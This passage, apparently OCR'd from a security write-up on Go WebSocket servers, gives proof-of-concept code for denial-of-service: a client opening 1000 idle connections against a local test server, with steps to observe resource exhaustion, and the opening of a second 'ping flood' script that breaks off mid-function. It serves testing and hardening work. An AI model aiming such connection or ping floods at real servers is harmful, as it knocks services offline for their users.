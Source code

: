     func main() {
    	serverURL := "ws://localhost:8001/ws_nokeepalive" // Target the vulnerable server
    	numConnections := 1000 // Number of concurrent idle connections to create
    
    	var wg sync.WaitGroup
    	for i := 0; i < numConnections; i++ {
    		wg.Add(1)
    		go connectAndIdle(serverURL, &wg)
    		time.Sleep(50 * time.Millisecond) // Stagger connections slightly
    	}
    	wg.Wait()
    	log.Println("All clients finished or timed out.")
    }
    ```
    
3. **Execution**: Run the client script.
4. **Observation**: Monitor the server's goroutine count, memory usage, and file descriptor count.
5. **Expected Result**:
    - The server's resource consumption (goroutines, memory, FDs) will increase with each new connection.
    - These resources will not be reclaimed even if the client script instances are terminated abruptly (simulating network drops), because the server has no mechanism to detect these dead connections.
    - Over time, or with a sufficiently large `numConnections`, the server may become unresponsive or crash due to resource exhaustion.

PoC 2: Ping Flood Attack

This PoC targets servers that process Ping frames but lack rate limiting on them.

1. **Setup**:
    - Deploy a Golang WebSocket server (this could be a correctly implemented one that responds to Pings, or a vulnerable one).
    - Monitor server CPU usage closely.
2. **Client Script (e.g., in Go using `gorilla/websocket`)**:
    
    ```Go
    
    package main
    
    import (
    	"log"
    	"net/url"
    	"time"
    	"github.com/gorilla/websocket"
    )
    
    func floodPings(serverURL string) {
    	u, err := url.Parse(serverURL)
    	if err!= nil {
    		log.Fatalf("Error parsing URL: %v", err)
    	}
    	c, _, err := websocket.DefaultDialer.Dial(u.String(), nil)
    	if err!= nil {
    		log.Fatalf("Dial error: %v", err)
    	}
    	defer c.Close()
    